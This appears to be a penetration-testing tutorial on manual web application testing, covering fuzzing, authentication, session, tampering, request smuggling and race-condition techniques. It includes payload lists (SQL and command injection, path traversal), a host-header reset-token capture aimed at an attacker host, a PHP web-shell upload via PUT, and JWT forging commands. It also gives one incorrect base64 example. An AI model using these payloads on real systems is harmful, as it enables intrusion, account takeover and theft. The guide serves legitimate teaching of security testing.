

# Manual Testing
> **Difficulty:** Beginner–Advanced | **Category:** Penetration Testing

---

## Table of Contents

1. [Why Manual Testing Matters](#why-manual-testing-matters)
2. [What Scanners Miss](#what-scanners-miss)
3. [Manual Testing Workflow](#manual-testing-workflow)
4. [Input Fuzzing](#input-fuzzing)
5. [Authentication Testing](#authentication-testing)
6. [Session Analysis](#session-analysis)
7. [Parameter Tampering](#parameter-tampering)
8. [HTTP Verb Tampering](#http-verb-tampering)
9. [Request Smuggling](#request-smuggling)
10. [Race Condition Testing](#race-condition-testing)
11. [Burp Suite Workflow](#burp-suite-workflow)
12. [Test Case Documentation](#test-case-documentation)

---

## Why Manual Testing Matters

**Manual testing** is the practice of a human analyst directly interacting with an application or system to discover vulnerabilities — without relying on automated tools to drive the process. While automated scanners excel at finding known issues at scale, they are fundamentally limited by their inability to understand *intent*, *context*, and *business logic*.

The difference becomes clear with a simple analogy: a vulnerability scanner is like a spell-checker — it finds typos (known patterns) but cannot tell you if your argument makes sense. A manual tester is the editor who understands the meaning.

> **Note:** Industry reports consistently show that **business logic flaws**, which make up a significant portion of critical vulnerabilities found in bug bounties, are almost exclusively discovered through manual testing. The 2023 Verizon DBIR notes that web application attacks are the top action in breaches — and most involve logic-level abuse, not just SQLi or XSS.

### Manual vs Automated: The Real Distinction

| Criterion | Automated Scanner | Manual Testing |
|-----------|-------------------|----------------|
| **Coverage of known CVEs** | Excellent | Moderate |
| **Business logic flaws** | None | Excellent |
| **IDOR detection** | Rarely | Excellent |
| **Auth workflow analysis** | Poor | Excellent |
| **Race conditions** | None | Good (with tooling) |
| **Chained vulnerabilities** | None | Excellent |
| **Novel/zero-day** | None | Possible |
| **Contextual understanding** | None | Full |
| **Speed** | Fast | Slow |
| **Reproducibility** | Perfect | Variable |

---

## What Scanners Miss

### Logic Flaws

A **business logic vulnerability** is a flaw in the design or implementation of an application's workflow that allows an attacker to manipulate it in unintended ways. No scanner can detect these because they require understanding what the application *should* do.

**Example — Negative Quantity Purchase:**
An e-commerce site allows adding `-1` of an item to the cart. The backend calculates the total and *subtracts* that item's price, resulting in a credit rather than a debit.

No scanner will flag this because:
- The endpoint accepts integers (valid type)
- The server returns HTTP 200 (no error)
- The response looks like a normal checkout page

Only a human thinking "what if I send a negative number?" discovers this.

### IDOR — Insecure Direct Object Reference

**IDOR** occurs when an application exposes a direct reference to an internal object (like a database record ID) and doesn't validate whether the requesting user owns that object.

```
GET /api/invoices/10043    ← You own invoice 10043
GET /api/invoices/10042    ← Does this return someone else's invoice?
```

Scanners cannot detect IDOR because:
- The HTTP response is `200 OK` — no error to flag
- The data returned *looks* valid
- Only a human testing `10042` while authenticated as user 10043 knows it's wrong

### Auth Bypass

Authentication bypass vulnerabilities arise from flawed logic in authentication checks. Examples:

- SQL injection in login (`' OR '1'='1`) — *scanners may catch this*
- Checking the wrong session variable (e.g., `username` is checked but `role` is not set)
- JWT algorithm confusion (`alg: none` attack) — *rarely caught by basic scanners*
- Password reset token reuse after password change — *completely missed by scanners*

### Multi-Step Workflow Abuse

Applications with multi-step processes (checkout, onboarding, password reset) often validate individual steps but not the *sequence*.

**Example:**
```
Step 1: Enter email → GET /reset?step=1
Step 2: Answer security question → GET /reset?step=2  
Step 3: Set new password → GET /reset?step=3
```

An attacker who goes directly to Step 3 by manipulating the URL or step parameter may bypass Step 2 entirely. A scanner visits each URL and sees `200 OK` — it has no concept of "you shouldn't be here without completing step 2."

---

## Manual Testing Workflow



### Phase 1: Map

Before testing anything, fully understand the attack surface:

```bash
# Use Burp Suite's Spider/Crawler on the target
# Then export sitemap to file for reference

# Manual endpoint discovery with gobuster
gobuster dir -u https://target.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php,asp,aspx,html,js,json -t 40 -o gobuster-target.txt

# Identify parameters with Arjun
python3 arjun.py -u https://target.com/search -m GET

# Crawl JavaScript for hidden endpoints
cat target.com-responses.txt | grep -oE '"\/[a-zA-Z0-9/_-]+"' | sort -u
```

### Phase 2: Probe

Systematically test each area of the attack surface without necessarily attempting full exploitation yet.

### Phase 3: Exploit

Once a vulnerability is confirmed, demonstrate its impact with a minimum viable proof of concept. Avoid destructive payloads.

### Phase 4: Document

Capture every detail while it's fresh: request, response, steps to reproduce, impact, affected component.

---

## Input Fuzzing

**Input fuzzing** is the process of sending unexpected, malformed, or boundary-case data to application inputs to observe unexpected behavior — crashes, errors, bypass, or injection.

### Manual Fuzzing Methodology

Identify every input point:
- URL parameters (`?id=1`, `?page=about`)
- POST body fields (forms, JSON, XML)
- HTTP headers (`User-Agent`, `Referer`, `X-Forwarded-For`, custom headers)
- Cookies
- File upload names and contents
- WebSocket messages

### Fuzzing Payloads to Try Manually

```
# SQL injection detection
' OR '1'='1
' OR 1=1--
'; DROP TABLE users;--
1' AND SLEEP(5)--

# XSS detection
<script>alert(1)</script>
">
javascript:alert(1)
{{7*7}}

# Path traversal
../../../etc/passwd
..%2F..%2F..%2Fetc%2Fpasswd
....//....//etc/passwd

# Command injection
; id
| id
`id`
$(id)
; sleep 5
& whoami &

# Format string
%s%s%s%s
%n%n%n%n
%x%x%x%x

# Integer overflow / boundary
0
-1
2147483647
2147483648
999999999999999
```

### Fuzzing with curl

```bash
# Test for SQL injection in a parameter
for payload in "'" "'' OR '1'='1" "1 AND SLEEP(5)--"; do
  echo "Testing: $payload"
  curl -s -o /dev/null -w "%{http_code} %{time_total}s\n" \
    "https://target.com/item?id=$(python3 -c "import urllib.parse; print(urllib.parse.quote('$payload'))")"
done

# Test for path traversal
curl -s "https://target.com/file?name=../../../../etc/passwd"

# Fuzz HTTP headers
curl -s -H "X-Forwarded-For: 127.0.0.1" \
     -H "X-Real-IP: 10.0.0.1" \
     -H "X-Original-URL: /admin" \
     https://target.com/
```

### Using ffuf for Parameter Fuzzing

```bash
# Fuzz GET parameters
ffuf -w /usr/share/wordlists/SecLists/Fuzzing/SQLi/Generic-SQLi.txt \
  -u "https://target.com/search?q=FUZZ" \
  -mc 200 -fs 1234

# Fuzz POST body
ffuf -w payloads.txt \
  -u https://target.com/login \
  -X POST \
  -d "username=FUZZ&password=admin" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -fc 401
```

---

## Authentication Testing

**Authentication testing** examines all mechanisms by which the application verifies identity. Authentication flaws are high-severity because compromising authentication typically grants access to everything behind it.

### Login Flow Testing

```bash
# Test for username enumeration (different response for valid vs invalid user)
curl -s -X POST https://target.com/login \
  -d "username=validuser&password=wrongpass" \
  -w "\nHTTP: %{http_code} | Size: %{size_download}\n"

curl -s -X POST https://target.com/login \
  -d "username=nonexistentuser&password=wrongpass" \
  -w "\nHTTP: %{http_code} | Size: %{size_download}\n"

# Different response sizes or messages = username enumeration vulnerability
```

### Password Reset Testing

**Host Header Injection in Password Reset:**

```bash
# Normal password reset request
POST /reset-password HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded

email=victim@example.com

# Inject attacker-controlled host
POST /reset-password HTTP/1.1
Host: attacker.com
Content-Type: application/x-www-form-urlencoded

email=victim@example.com

# If the app uses $_SERVER['HTTP_HOST'] to build reset links,
# the victim receives: https://attacker.com/reset?token=XXXXX
# Attacker sees the token in their server logs
```

```bash
# Test Host Header injection
curl -s -X POST https://target.com/reset-password \
  -H "Host: attacker.ngrok.io" \
  -d "email=victim@example.com"

# Watch ngrok/Burp Collaborator for incoming requests with tokens
```

**Password Reset Token Analysis:**

```python
#!/usr/bin/env python3
# Analyze reset tokens for predictability
tokens = [
    "a3f5b2c1d8e9f0a1",
    "a3f5b2c1d8e9f0a2",
    "a3f5b2c1d8e9f0a3",
]

# Check for sequential or time-based patterns
for i, token in enumerate(tokens):
    print(f"Token {i+1}: {token}")
    print(f"  Length: {len(token)}")
    print(f"  Hex decode attempt: {bytes.fromhex(token)}")
```

### JWT Testing

```bash
# Decode JWT without verification
echo "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWxpY2UiLCJyb2xlIjoidXNlciJ9.SIG" \
  | cut -d'.' -f2 | base64 -d 2>/dev/null

# Test alg:none attack (remove signature)
# Original: header.payload.signature
# Modified: eyJhbGciOiJub25lIn0.eyJ1c2VyIjoiYWRtaW4iLCJyb2xlIjoiYWRtaW4ifQ.

# Use jwt_tool
python3 jwt_tool.py eyJ... -X a   # alg:none attack
python3 jwt_tool.py eyJ... -X s   # HMAC secret bruteforce
python3 jwt_tool.py eyJ... -T     # tamper mode (modify claims)
```

---

## Session Analysis

**Session management** vulnerabilities allow attackers to steal, predict, or fixate session identifiers to impersonate authenticated users.

### Cookie Attribute Checks

```bash
# Inspect cookies with curl
curl -s -c cookies.txt -b cookies.txt -I https://target.com/login

# Check for missing security attributes
grep -i "Set-Cookie" response_headers.txt

# Good cookie: 
# Set-Cookie: session=abc123; Path=/; HttpOnly; Secure; SameSite=Strict

# Bad cookie (missing HttpOnly, Secure, SameSite):
# Set-Cookie: session=abc123; Path=/
```

| Cookie Attribute | Purpose | Risk if Missing |
|------------------|---------|-----------------|
| `HttpOnly` | Prevents JS access | XSS can steal session via `document.cookie` |
| `Secure` | HTTPS only transmission | Session ID sent over HTTP → interception |
| `SameSite=Strict` | CSRF protection | Cross-site requests include session cookie |
| `Path=/` | Scope limitation | Cookie sent to all paths |
| Short `Max-Age` | Expiration | Long-lived sessions increase exposure window |

### Session Fixation Testing

```
# Session Fixation Attack Flow:
1. Attacker gets a pre-auth session ID: GET /login → Set-Cookie: session=ATTACKER_KNOWN_ID
2. Attacker tricks victim into using that session:
   https://target.com/login?sessionid=ATTACKER_KNOWN_ID
3. Victim logs in — if the app doesn't regenerate the session ID on login,
   ATTACKER_KNOWN_ID is now an authenticated session
4. Attacker uses the same session ID to access the app as victim
```

```bash
# Test: does session ID change after login?
# Pre-login session
SESSION_PRE=$(curl -s -c /tmp/cookies.txt -I https://target.com/login \
  | grep Set-Cookie | grep -oP 'session=\K[^;]+')

# Perform login
curl -s -X POST https://target.com/login \
  -b "session=$SESSION_PRE" \
  -c /tmp/cookies_post.txt \
  -d "username=user&password=pass"

# Post-login session
SESSION_POST=$(grep session /tmp/cookies_post.txt | awk '{print $7}')

echo "Pre-login:  $SESSION_PRE"
echo "Post-login: $SESSION_POST"

# If they're the same → SESSION FIXATION VULNERABILITY
```

### Token Entropy Analysis

```bash
# Collect multiple session tokens and analyze entropy
for i in {1..10}; do
  curl -s -I https://target.com/ | grep Set-Cookie | grep -oP 'session=\K[^;]+'
done > tokens.txt

# Use Burp Suite Sequencer for proper entropy analysis
# (Manual: Import tokens, analyze bit-level randomness)

# Quick entropy check with Python
python3 -c "
import math, collections
tokens = open('tokens.txt').read().split()
for t in tokens[:3]:
    freq = collections.Counter(t)
    entropy = -sum((c/len(t))*math.log2(c/len(t)) for c in freq.values())
    print(f'{t[:20]}... entropy={entropy:.2f} bits/char')
"
```

---

## Parameter Tampering

**Parameter tampering** involves modifying values sent to the server — whether in URLs, POST bodies, cookies, or hidden fields — to achieve unintended access or functionality.

### Hidden Field Manipulation

```html
<!-- Original HTML form with hidden field -->
<form method="POST" action="/checkout">
  <input type="hidden" name="price" value="99.99">
  <input type="hidden" name="product_id" value="SKU-1234">
  <input type="submit" value="Buy Now">
</form>
```

```bash
# Intercept with Burp Suite, modify price to 0.01
POST /checkout HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded

price=0.01&product_id=SKU-1234

# Or test via curl directly
curl -s -X POST https://target.com/checkout \
  -d "price=0.01&product_id=SKU-1234" \
  -b "session=YOUR_SESSION"
```

### Cookie Tampering

```bash
# Decode and modify a Base64 cookie
echo -n "role=user&uid=1042" | base64
# cm9sZT11c2VyJnVpZD0xMDQy

# Modify to admin
echo -n "role=admin&uid=1042" | base64
# cm9sZT1hZG1pbih1aWQ9MTA0Mg==

# Send modified cookie
curl -s -b "session=cm9sZT1hZG1pbih1aWQ9MTA0Mg==" https://target.com/admin/
```

### URL Parameter Tampering

```bash
# Test IDOR via user ID in URL
curl -s -b "session=VICTIM_SESSION" https://target.com/api/user/1001/profile
curl -s -b "session=VICTIM_SESSION" https://target.com/api/user/1002/profile  # Different user

# Test role/privilege in query params
curl -s "https://target.com/api/data?role=admin&uid=1001"
curl -s "https://target.com/api/data?debug=true"
curl -s "https://target.com/api/data?admin=1"
```

---

## HTTP Verb Tampering

**HTTP verb tampering** exploits misconfigured access controls that restrict access based on HTTP method rather than proper authorization. If an endpoint only restricts `GET` requests but not `POST`, or vice versa, changing the verb bypasses the control.

```bash
# First, discover allowed methods with OPTIONS
curl -s -X OPTIONS https://target.com/admin/ -I
# Look for: Allow: GET, POST, PUT, DELETE, OPTIONS

# Test access control bypass with different verbs
# If GET /admin returns 403:
curl -s -X POST https://target.com/admin/ -d ""
curl -s -X PUT https://target.com/admin/ -d ""
curl -s -X HEAD https://target.com/admin/
curl -s -X PATCH https://target.com/admin/ -d ""

# Test arbitrary verb (some servers process unknown verbs without restrictions)
curl -s -X BLAH https://target.com/admin/

# Test against file write (if PUT is enabled)
curl -s -X PUT https://target.com/uploads/shell.php \
  -d "<?php system(\$_GET['cmd']); ?>"
```

> **Warning:** Finding that `PUT` or `DELETE` is enabled on a web server is immediately reportable as a high-severity finding. Always verify scope before testing destructive methods like DELETE.

### WebDAV Verb Testing

```bash
# Test for WebDAV (common on IIS, Apache with mod_dav)
curl -s -X PROPFIND https://target.com/ -H "Depth: 0"

# If WebDAV enabled, list files
curl -s -X PROPFIND https://target.com/webdav/ \
  -H "Depth: 1" \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0"?><D:propfind xmlns:D="DAV:"><D:allprop/></D:propfind>'

# Upload file via WebDAV
curl -s -X PUT https://target.com/webdav/test.txt -d "test content"
```

---

## Request Smuggling

**HTTP Request Smuggling** exploits discrepancies between how a front-end proxy and a back-end server interpret HTTP message boundaries (specifically `Content-Length` and `Transfer-Encoding` headers), allowing an attacker to "smuggle" a partial request that gets prepended to the next user's request.

### CL.TE Desync (Frontend uses Content-Length, Backend uses Transfer-Encoding)

```
POST / HTTP/1.1
Host: target.com
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggled&x=
0

GET /admin HTTP/1.1
X-Ignore: X
```

The frontend reads 49 bytes (entire body). The backend reads until the `0\r\n\r\n` terminator, leaving `GET /admin HTTP/1.1\r\nX-Ignore: X` in the buffer, which gets prepended to the next legitimate request.

### TE.CL Desync (Frontend uses Transfer-Encoding, Backend uses Content-Length)

```
POST / HTTP/1.1
Host: target.com
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /admin HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0


```

### Detection with Burp Suite

```
# In Burp Suite:
1. Open Repeater
2. Enable "HTTP/1" in connection settings (disable HTTP/2 negotiation)
3. Add both Content-Length and Transfer-Encoding headers
4. Set "Update Content-Length" to OFF
5. Send two requests in quick succession — if the second request returns
   an unexpected response, smuggling may be possible

# Use Burp Extension: HTTP Request Smuggler
# Scan > "Launch HTTP Request Smuggler"
```

```bash
# Detect with smuggler.py (standalone tool)
python3 smuggler.py -u https://target.com/ -v 2
```

> **Note:** Request smuggling is extremely sensitive and can affect other users of the application in production. Always report indicators to the client immediately and exercise caution when confirming. Never test in production without explicit written authorization.

---

## Race Condition Testing

**Race conditions** (also called **TOCTOU — Time of Check to Time of Use** vulnerabilities) occur when an application performs a check and then an action, but the state can change between the two operations.

### Classic Example: Gift Card Double Redemption

```
Normal flow:
1. Check if coupon SAVE20 has been used → NOT USED
2. Apply 20% discount
3. Mark coupon as USED

Race condition:
Thread A: Check SAVE20 → NOT USED
Thread B: Check SAVE20 → NOT USED (check happened before A's update)
Thread A: Apply discount, mark USED
Thread B: Apply discount, mark USED  ← discount applied twice!
```

### Burp Suite Turbo Intruder Method

```python
# Turbo Intruder script for race condition testing
# (Paste into Burp Suite Turbo Intruder extension)

def queueRequests(target, wordlists):
    engine = RequestEngine(
        endpoint=target.endpoint,
        concurrentConnections=30,
        requestsPerConnection=100,
        pipeline=True  # HTTP pipelining to minimize network jitter
    )
    
    # Send 20 concurrent redemption requests
    for i in range(20):
        engine.queue(target.req, str(i))

def handleResponse(req, interesting):
    table.add(req)
```

```bash
# Or use the Burp Suite "Send group in parallel" feature (v2023.x+):
# 1. Create multiple identical requests in Repeater
# 2. Group them (right-click → "Add to group")
# 3. Send with "Send group (parallel)" option
```

### Testing with curl (crude parallel test)

```bash
# Launch 20 simultaneous coupon redemption requests
for i in {1..20}; do
  curl -s -X POST https://target.com/apply-coupon \
    -b "session=YOUR_SESSION" \
    -d "coupon=SAVE20&order_id=98765" &
done
wait

# Check if discount was applied multiple times in the order history
curl -s -b "session=YOUR_SESSION" https://target.com/order/98765 | grep -i discount
```

---

## Burp Suite Workflow

### Intercepting and Modifying Requests

```
Setup:
1. Configure browser proxy: 127.0.0.1:8080
2. Install Burp CA certificate in browser
3. Enable Intercept in Proxy tab
4. Browse target application — requests appear in Intercept

Workflow per request:
1. Proxy → Intercept → examine incoming request
2. Modify parameters as needed
3. Forward or Drop
4. Check HTTP History for full request/response log
```

### Repeater for Manual Testing

```
# Repeater workflow:
1. Right-click any request in Proxy History → "Send to Repeater"
2. In Repeater tab: modify parameters, headers, body
3. Click "Send" — see response in right pane
4. Compare responses by opening multiple Repeater tabs (Ctrl+T)
5. Right-click response → "Show response in browser" to render HTML

# Useful Repeater features:
- "Search" in response to highlight keywords (e.g., "admin", "error", "password")
- Response comparison between valid/invalid inputs
- "Pretty" view for JSON/XML formatting
```

### Intruder for Fuzzing

```
# Intruder payload types:
Attack Type: Sniper (one payload position, one list)
Attack Type: Pitchfork (multiple positions, synchronized lists)
Attack Type: Cluster Bomb (multiple positions, all combinations)

# Useful payload lists (from SecLists):
/usr/share/wordlists/SecLists/Fuzzing/SQLi/Generic-SQLi.txt
/usr/share/wordlists/SecLists/Fuzzing/XSS/XSS-Cheat-Sheet-PortSwigger.txt
/usr/share/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt
```

### Comparer for Response Analysis

```
# Use Comparer to find differences between responses:
1. Send two responses to Comparer (right-click → "Send to Comparer")
2. Comparer → "Words" or "Bytes" to highlight differences
3. Useful for: valid vs invalid user login (username enumeration),
   admin vs normal user responses, same request with different session tokens
```

---

## Test Case Documentation

Every manual test should be documented in a reproducible format. This serves both as evidence and as a reproducibility guide.

### Test Case Template

```markdown
## Test Case: [TC-ID] — [Vulnerability Name]

**Date:**         2024-XX-XX
**Tester:**       [Name]
**Target URL:**   https://target.com/endpoint
**Severity:**     Critical / High / Medium / Low / Info
**CWE:**          CWE-XXX
**CVSSv3 Score:** X.X (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N)

### Description
[Plain-language description of the vulnerability]

### Steps to Reproduce
1. Authenticate as user `testuser@example.com` / `Password123`
2. Navigate to `https://target.com/profile/edit`
3. Intercept the POST request with Burp Suite
4. Modify the `user_id` parameter from `1042` to `1041`
5. Forward the request

### Request
\`\`\`http
POST /profile/edit HTTP/1.1
Host: target.com
Cookie: session=abc123...
Content-Type: application/x-www-form-urlencoded

user_id=1041&email=attacker@evil.com&name=Hacked
\`\`\`

### Response
\`\`\`http
HTTP/1.1 200 OK
Content-Type: application/json

{"status":"success","updated_user":1041}
\`\`\`

### Evidence
- Screenshot: screenshots/TC-007-idor-profile.png
- Burp export: exports/TC-007-request.xml

### Impact
An authenticated attacker can modify any other user's profile data,
including email address, enabling full account takeover.

### Remediation
Verify that the authenticated user's session-bound ID matches the
`user_id` parameter on all write operations. Never trust client-supplied
object identifiers for access control decisions.
```

---

## Summary: Manual Testing Anti-Patterns

> **Warning:** Avoid these common manual testing mistakes:

1. **Testing without a session** — Many logic flaws only appear when authenticated. Always test both authenticated and unauthenticated states.
2. **Only testing happy paths** — Test invalid data, boundary values, and deliberately broken flows.
3. **Not comparing responses** — Response size differences of even 1 byte can indicate information disclosure.
4. **Skipping multi-step flows** — Step-skipping vulnerabilities are only found by someone who deliberately tries to skip steps.
5. **Testing in production destructively** — Use minimum-impact payloads. Prefer `SLEEP(5)` over `DROP TABLE`. Prefer read-only WebDAV access over uploading files.
6. **Insufficient documentation** — If you can't reproduce it from your notes alone, you'll lose the finding.
